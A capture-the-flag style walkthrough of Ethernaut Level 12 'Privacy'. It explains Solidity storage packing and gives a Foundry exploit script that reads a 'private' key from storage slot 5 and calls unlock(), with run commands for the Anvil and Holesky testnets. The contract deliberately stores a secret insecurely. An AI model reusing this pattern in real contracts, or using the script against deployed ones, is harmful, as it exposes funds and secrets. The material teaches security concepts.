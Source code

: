 # Level 12 - Privacy ⏺⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/12" %}

### Level Setup

{% hint style="info" %}
The creator of this contract was careful enough to protect the sensitive areas of its storage.

Unlock this contract to beat the level.

Things that might help:

* Understanding how storage works
* Understanding how parameter parsing works
* Understanding how casting works

Tips:

* Remember that metamask is just a commodity. Use another tool if it is presenting problems. Advanced gameplay could involve using remix, or your own web3 provider.
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/Privacy.sol" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {
    bool public locked = true;
    uint256 public ID = block.timestamp;
    uint8 private flattening = 10;
    uint8 private denomination = 255;
    uint16 private awkwardness = uint16(block.timestamp);
    bytes32[3] private data;

    constructor(bytes32[3] memory _data) {
        data = _data;
    }

    function unlock(bytes16 _key) public {
        require(_key == bytes16(data[2]));
        locked = false;
    }

    /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
    */
}
```
{% endcode %}

### Exploit

The data is a `private` state variable, which means it's not accessible to other contracts, but can be read externally by a script.

Storage slots explained:

```solidity
contract Privacy {
    bool public locked = true;                             // slot 0
    uint256 public ID = block.timestamp;                   // slot 1
    uint8 private flattening = 10;                         // slot 2 (packed)
    uint8 private denomination = 255;                      // slot 2 (packed)
    uint16 private awkwardness = uint16(block.timestamp);  // slot 2 (packed)
    bytes32[3] private data;                               // slot 3, 4, and 5
}
```

1. `bool public locked`: This occupies slot 0. Each state variable takes up a single slot unless it is part of a struct or an array. `bool` takes 1 byte, but an entire 32-byte slot is allocated for it.
2. `uint256 public ID`: This occupies slot 1. `uint256` requires 32 bytes (1 full slot).
3. `uint8 private flattening`: This will start in slot 2. `uint8` only takes 1 byte.
4. `uint8 private denomination`: Since `uint8` also takes only 1 byte, it is packed into slot 2 along with `flattening`.
5. `uint16 private awkwardness`: `uint16` takes 2 bytes. Solidity packs this into slot 2 along with the other `uint8` values because they collectively fit within 32 bytes.
   * Slot 2 looks like this (in bytes): `flattening (1) + denomination (1) + awkwardness (2) + 28 bytes padding = 32 bytes`
6. `bytes32[3] private data`: Arrays and structs are always stored in separate slots. The array `data` has 3 elements of type `bytes32`, and each `bytes32` takes 32 bytes (1 full slot).
   * `data[0]` is stored in slot 3.
   * `data[1]` is stored in slot 4.
   * `data[2]` is stored in slot 5.

Therefore, `data[2]` is in slot 5 because it is the third element of the `bytes32[3]` array, and each element of this array occupies its own 32-byte storage slot. The preceding variables occupy slots 0 through 2, with the array `data` starting at slot 3 and extending to slots 4 and 5 for its elements.

Once found, cast it as `bytes16` to truncate the packed zeros.

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-12

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-12

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/script/Level12.s.sol" %}

{% code title="script/Level12.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

// ================================================================
// │                        LEVEL 12 - PRIVACY                    │
// ================================================================
interface IPrivacy {
    function unlock(bytes16 _key) external;
}

contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();
        IPrivacy targetContract = IPrivacy(targetContractAddress);

        bytes16 key = bytes16(vm.load(targetContractAddress, bytes32(uint256(5))));

        vm.startBroadcast();
        targetContract.unlock(key);
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

2. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
Nothing in the Ethereum blockchain is private. The keyword private is merely an artificial construct of the Solidity language. Tools such as Foundry or Ethers can be used to read anything from storage. It can be tricky to read what you want though, since several optimization rules and techniques are used to compact the storage as much as possible.

It can't get much more complicated than what was exposed in this level. For more, check out this excellent article by "Darius": [How to read Ethereum contract storage](https://medium.com/aigang-network/how-to-read-ethereum-contract-storage-44252c8af925)
{% endhint %}
